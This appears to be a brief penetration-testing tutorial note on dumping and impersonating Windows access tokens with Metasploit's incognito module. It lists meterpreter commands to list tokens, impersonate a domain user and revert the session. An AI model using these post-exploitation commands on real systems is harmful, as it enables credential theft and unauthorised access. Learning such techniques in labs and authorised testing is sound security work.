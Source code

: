 ## **Dumping Tokens Using Metasploit**

First of all make sure you have a `meterpreter` shell on our target system

```powershell
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token marvel\\fcastle
```


#### **Example**


![b5tFh1b.png](https://i.imgur.com/b5tFh1b.png)
![](https://i.imgur.com/b5tFh1b.png)


#### **Revert Msfconsole Shell**

This will revert the `meterpreter` session to its original state

```powershell
meterpreter > revself
```


**Since we are able to dump user fcastle token and login**